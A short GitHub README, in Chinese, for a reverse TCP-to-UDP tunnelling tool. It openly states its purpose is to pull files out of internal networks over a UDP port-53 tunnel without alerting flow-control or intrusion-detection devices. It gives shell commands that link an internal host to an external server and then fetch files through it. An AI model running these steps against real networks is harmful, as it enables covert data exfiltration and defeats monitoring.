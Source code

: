 # rtcp2udp
反向端口转发工具 v 1.0
Reverse TCP Port to UDP Forwarding Tools  
Last Update: 2016年04月29日  
问题反馈: ringzero@0x557.org  
![](https://github.com/ring04h/rtcp2udp/blob/master/portmap.png?20160429)  

## 描述
在Hack场景中，Hack人员需要从内网获取指定文件，并向外网传输时，不被流控设备，入侵检测设备所警觉；  
本工具的原理为，向外网服务器建立一个反向的UDP(53)隧道,用于文件传输；  

## 网络传输流程
外网客户端连接 119.29.29.29 的80端口，等于连接内网 172.168.1.10 服务器的80端口，隧道采用UDP协议传输  

## 使用说明
Http Server  <- 内网机器 -> Internet Server (UDP隧道)  
Client -> tcp:119.29.29.29:80 -> udp:119.29.29.29:53 -> tcp:172.168.1.10:80

* 在你的外网服务器监听用于服务的 UDP&TCP 端口
这里假设场景,你的外网服务器 IP 为 119.29.29.29
```shell
[root@localhost ~]# python tcp2udp.py -t 0.0.0.0:80 -u 0.0.0.0:53
[INFO] UDPServer 0.0.0.0:53 Listening Success...
[INFO] TCPServer 0.0.0.0:80 Listening Success...
```
* 在内网机器打通与外网服务器之间的 UDP 隧道
```shell
[root@localhost ~]# python rtcp2udp.py -t 172.168.1.10:80 -u 119.29.29.29:53
[INFO] Client Bridge Connection Success...
```
* 当隧道打通后，就可以开始文件传输服务
```shell
[root@localhost ~]# wget http://119.29.29.29/src/file.tar.gz
```

